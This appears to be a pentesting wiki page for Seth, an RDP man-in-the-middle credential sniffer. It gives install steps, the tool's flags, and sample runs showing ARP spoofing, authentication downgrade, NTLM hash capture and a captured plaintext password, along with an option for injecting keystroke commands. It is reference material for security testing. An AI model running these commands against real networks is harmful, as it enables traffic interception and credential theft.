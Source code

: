 ```yaml
---
title : "Seth"
# pre : ' '
description : "RDP credential sniffer - Man in the Middle RDP"
date : 2020-12-01T08:18:42+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Seth

RDP credential sniffer - Man in the Middle RDP

## Installation

Requirements:

```plain
sudo apt install dsniff tcpdump
```

```plain
git clone https://github.com/SySS-Research/Seth.git
```

## Usage

```plain
seth.py [-h] [-d] [-f] [-p LISTEN_PORT] [-b BIND_IP] [-g {0,1,3,11}]
               [-j INJECT] -c CERTFILE -k KEYFILE
               target_host [target_port]
```

## Flags

```plain
RDP credential sniffer -- Adrian Vollmer, SySS GmbH 2017

positional arguments:
  target_host           target host of the RDP service
  target_port           TCP port of the target RDP service (default 3389)

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           show debug information
  -f, --fake-server     perform a 'fake server' attack
  -p LISTEN_PORT, --listen-port LISTEN_PORT
                        TCP port to listen on (default 3389)
  -b BIND_IP, --bind-ip BIND_IP
                        IP address to bind the fake service to (default all)
  -g {0,1,3,11}, --downgrade {0,1,3,11}
                        downgrade the authentication protocol to this (default
                        3)
  -j INJECT, --inject INJECT
                        command to execute via key press event injection
  -c CERTFILE, --certfile CERTFILE
                        path to the certificate file
  -k KEYFILE, --keyfile KEYFILE
                        path to the key file
```

## Examples

### Start MiTM attack

| Attacker IP | IP to ARP spoof for | Target RDP to connect to |
| :-: | :-: | :-: |
10.10.10.10 | 10.10.10.15 | 10.10.10.20

```plain
./seth.sh eth0 10.10.10.{10,15,20}
```

```plain
$ sudo ./seth.sh eth0 10.10.10.{10,15,20}
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[...]
[*] Cleaning up...
[*] Done
```

### Capture of plaintext credentials

```plain
sudo ./seth.sh enp0s31f6 10.10.10.5 10.10.10.7 10.10.10.10
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.10.10.10
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.10.10.7:53063
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
johndo@example.com:::7c70ee2cd148b341:ee85ef730780002e00370030000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection lost ([Errno 104] Connection reset by peer)
[...REDACTED...]
Connection received from 10.10.10.7:53067
Warning: RC4 not available on client, attack might not work
Enable SSL
Listening for new connection
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
.\johndo@example.com:Welkom1234
[*] Cleaning up...
[*] Done
```

### Example capture of hashes

![Example](images/example.png)

## URL List

* [GitHub.com - Seth](https://github.com/SySS-Research/Seth)
